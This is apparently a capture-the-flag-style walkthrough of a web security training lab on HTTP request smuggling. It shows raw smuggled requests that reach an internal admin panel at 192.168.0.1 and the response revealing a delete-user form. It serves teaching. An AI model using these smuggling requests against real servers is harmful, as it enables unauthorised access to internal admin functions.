 
to solve the lab: exploit this behavior to access an internal admin panel located at 192.168.0.1/admin, then delete the user carlos. 


first - lets validate we can smuggle (remember to uncheck "update content length" in repeater options on the upper tab):
1. find a post request to exploit -in this lab we only have the login request using the POST method:
```
POST /login HTTP/1.1
Host: 0a22006403f519bfc0ee6fef00d90004.web-security-academy.net
Cookie: _lab=45%7cMCsCFHGopX02kALZTXNwpcgO6gj6BiAUAhMZPJSZh%2f16OPjKhQkCbw%2bapG8FYROs6DJu669XAnYH6gLFugq5zxU5EuOv8O%2fYDnUmA1HwEQq7bC5IScyo2kVxSwxvdKkYWJgvEFk3GfgTbjocb8F2h%2fVSAbFaGcgjgRHYYaCTJR7lwg%3d%3d; session=ZW5QknB5pD7Iy2LgDqxjfctfRqawb06I
Content-Length: 61


csrf=zi9TIKrlUGeQ38CAuM197KLRHyohbgSg&username=x&password=y
```


2.lets send it to repeater and add smuggled request to it (while zeroing the CL value):
```
POST /login HTTP/1.1
Host: 0a22006403f519bfc0ee6fef00d90004.web-security-academy.net
Cookie: _lab=45%7cMCsCFHGopX02kALZTXNwpcgO6gj6BiAUAhMZPJSZh%2f16OPjKhQkCbw%2bapG8FYROs6DJu669XAnYH6gLFugq5zxU5EuOv8O%2fYDnUmA1HwEQq7bC5IScyo2kVxSwxvdKkYWJgvEFk3GfgTbjocb8F2h%2fVSAbFaGcgjgRHYYaCTJR7lwg%3d%3d; session=ZW5QknB5pD7Iy2LgDqxjfctfRqawb06I
Content-Length: 0

GET /admin/ HTTP/1.1
Host: 192.168.0.1
Cookie: _lab=45%7cMCsCFHGopX02kALZTXNwpcgO6gj6BiAUAhMZPJSZh%2f16OPjKhQkCbw%2bapG8FYROs6DJu669XAnYH6gLFugq5zxU5EuOv8O%2fYDnUmA1HwEQq7bC5IScyo2kVxSwxvdKkYWJgvEFk3GfgTbjocb8F2h%2fVSAbFaGcgjgRHYYaCTJR7lwg%3d%3d; session=ZW5QknB5pD7Iy2LgDqxjfctfRqawb06I
```
3. now we are getting somewhere! it seems we got some sort of admin page:
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Keep-Alive: timeout=10
Content-Length: 26

"Missing parameter 'csrf'"HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Keep-Alive: timeout=10
Content-Length: 2981

<!DOCTYPE html>
<html>
    <head>
    ...
    ...
    <form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
                            <input required type="hidden" name="csrf" value="zi9TIKrlUGeQ38CAuM197KLRHyohbgSg">
                            <label>Username</label>
                            <input required type='text' name='username'>
                            <button class='button' type='submit'>Delete user</button>
                        </form>
```
so it seeme our form use POST method and it require CSRF field.
